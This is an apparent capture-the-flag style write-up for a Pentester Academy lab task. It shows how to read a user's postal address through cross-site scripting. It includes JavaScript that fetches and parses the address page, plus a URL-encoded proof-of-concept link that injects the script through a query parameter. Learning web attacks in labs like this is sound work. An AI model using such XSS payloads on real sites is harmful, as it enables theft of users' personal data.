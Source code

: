 ## Task 18 <small>[[Try Now]](http://pentesteracademylab.appspot.com/lab/webapp/jfp/18)</small>

Objectives:

1. Find John's Postal Address using an XSS vulnerability on this page
2. Display the Postal address in the div with id "result"
3. No Hardcoded values can be used - everything has to be figured out dynamically

After looking the source code of the page, I found that we can find the address on the below URL

![]https://i.ibb.co/wKZKvQG/image.png]

When I opened the URL, I found the same page with `<p>` tag containing the address

![](https://i.ibb.co/tZfC5SF/image.png)

So basically, in this we can do this by parsing the HTML using [DOMParser](https://developer.mozilla.org/en-US/docs/Web/API/DOMParser) or simply we can use the RegExp pattern for it

In this we need the text between `<p id="address">...</p>`. After googling, I found this "[Selecting Text Between HTML Tags](https://stackoverflow.com/a/7167486/10362396)"

**REGEX USED: `/<p id="address">(.+?)<\/p>/`**

```js
const xhttp = new XMLHttpRequest();

xhttp.onreadystatechange = function () {
  if (this.readyState == 4 && this.status == 200) {
    document.querySelector("#result").innerText = /<p id="address">(.+?)<\/p>/.exec(xhttp.responseText)[1];
  }
};
xhttp.open("GET", "http://pentesteracademylab.appspot.com/lab/webapp/jfp/18/address", true);
xhttp.send();
```

For POC, [Click Here](http://pentesteracademylab.appspot.com/lab/webapp/jfp/18?url=%3Cscript%3E%0Aconst%20xhttp%20%3D%20new%20XMLHttpRequest%28%29%3B%0A%0Axhttp.onreadystatechange%20%3D%20function%20%28%29%20%7B%0A%20%20if%20%28this.readyState%20%3D%3D%204%20%26%26%20this.status%20%3D%3D%20200%29%20%7B%0A%20%20%20%20document.querySelector%28%22%23result%22%29.innerText%20%3D%20%2F%3Cp%20id%3D%22address%22%3E%28.%2B%3F%29%3C%5C%2Fp%3E%2F.exec%28xhttp.responseText%29%5B1%5D%3B%0A%20%20%7D%0A%7D%3B%0Axhttp.open%28%22GET%22%2C%20%22http%3A%2F%2Fpentesteracademylab.appspot.com%2Flab%2Fwebapp%2Fjfp%2F18%2Faddress%22%2C%20true%29%3B%0Axhttp.send%28%29%3B%0A%3C%2Fscript%3E)
